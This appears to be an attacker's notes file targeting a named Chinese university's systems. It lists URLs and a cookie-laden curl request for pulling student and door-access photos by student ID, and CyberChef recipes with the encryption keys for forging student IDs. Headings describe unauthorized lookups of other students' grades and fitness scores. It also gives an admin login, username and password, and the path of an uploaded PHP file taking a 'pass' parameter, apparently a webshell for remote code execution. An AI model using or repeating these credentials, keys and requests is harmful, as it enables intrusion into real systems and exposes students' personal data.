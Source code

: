 20134452
20195424
20195472
### 根据学号查询照片
https://open.nwu.edu.cn/user/img_preview?path=local%3A%2F%2F%2Favatar%2F20211172.jpg&access_token=db5b298a6ee51471791a52e96956f2be82c9b3ba


http://111.114.166.129/resources/upload/userphoto/2019117283.jpg

https://swk.nwu.edu.cn/
门禁照片
```bash
curl 'https://swk.nwu.edu.cn/biolibrary/api/selfcollect/staffInfoV2' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en,zh-CN;q=0.9,zh;q=0.8' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: text/plain' \
  -b 'JSESSIONID=CD5C7E55B3F6C410AFA2F309BD48265F; iPlanetDirectoryPro=veoecFexgxGT1HXlogl9nQ; TGC_UID_ENC=Z0orV0lCdWlsc2hOZ3JWd2dEb1FSL3B3UHJ6UEI5djVpNE5TTDNzb1ZSczVjNStNRURHZjIxaDR0d1JhUFJYTENnZ0hlU3U1SnFLYTlRR2U0S2tZNjlzWkNIY3VNTHowcEk3MEIvTWhvTUhaM0dndGQvWmN0dEpGdm5KeUt2YzBwNU9wTXBucC9UUk94azRUeGZXelJiOTZLRE8xNlVUb25uZ3V1Q2xvSGFrdmRBeVZkMVdWNjJhWXhXZW8zK0ZkajRDcXZHbzlwRlhtM3JpSmxUem5YRHpaR1dVWUwxNFFuMDBOaHBvUUdMND0%3D' \
  -H 'Origin: https://swk.nwu.edu.cn' \
  -H 'Pragma: no-cache' \
  -H 'Referer: https://swk.nwu.edu.cn/biolibrary/api/selfcollect/staffInfoV2' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36' \
  -H 'sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Windows"' \
  --data-raw $'{"xh":"pMqMFtdj8XyAzGgYWYZ3LQ=="}\r\n'
```

```
file:///D:/Tools/CyberChef_v10.19.4/CyberChef_v10.19.4.html#recipe=SM4_Encrypt(%7B'option':'UTF8','string':'48b31f058ac00df6'%7D,%7B'option':'UTF8','string':'48b31f058ac00df6'%7D,'ECB','Raw','Raw')To_Base64('A-Za-z0-9%2B/%3D')&input=MjAyMTExNzMwNQ
```

```
file:///D:/Tools/CyberChef_v10.19.4/CyberChef_v10.19.4.html#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)SM4_Decrypt(%7B'option':'UTF8','string':'48b31f058ac00df6'%7D,%7B'option':'UTF8','string':'48b31f058ac00df6'%7D,'ECB','Raw','Raw')&input=eDFVZytYVVphT1F4c2F2d2VXVUd6UT09
```

### 越权查询他人体测成绩

### 学科建设管理平台后台&rce
http://xkglpt.nwu.edu.cn/admin/

fzghyxkjsc/fzghyxkjsc
https://xkglpt.nwu.edu.cn/upload/logo/n006_login.php


post pass参数

### 综合多媒体发布平台


### 教务系统查询平时成绩

https://jwgl.nwu.edu.cn/jwglxt/cjcx/cjcx_cxDgXscj.html?gnmkdm=N3050&layout=default#
### 校园网


```
file:///D:/Tools/CyberChef_v10.19.4/CyberChef_v10.19.4.html#recipe=AES_Encrypt(%7B'option':'UTF8','string':'1234567890000000'%7D,%7B'option':'UTF8','string':'1234567890000000'%7D,'CBC','Raw','Hex',%7B'option':'Hex','string':''%7D)
```

```
file:///D:/Tools/CyberChef_v10.19.4/CyberChef_v10.19.4.html#recipe=AES_Decrypt(%7B'option':'UTF8','string':'1234567890000000'%7D,%7B'option':'UTF8','string':'1234567890000000'%7D,'CBC','Hex','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)
```
